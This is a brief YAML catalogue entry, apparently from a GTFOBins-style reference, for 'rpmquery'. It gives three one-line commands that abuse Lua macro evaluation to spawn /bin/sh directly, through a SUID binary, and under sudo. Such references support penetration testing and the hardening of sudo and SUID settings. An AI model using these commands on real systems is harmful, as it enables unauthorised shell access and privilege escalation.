 ```yaml
---
name: rpmquery
functions:
  shell:
    - code: rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
  suid:
    - code: ./rpmquery --eval '%{lua:posix.exec("/bin/sh", "-p")}'
  sudo:
    - code: sudo rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
---
```

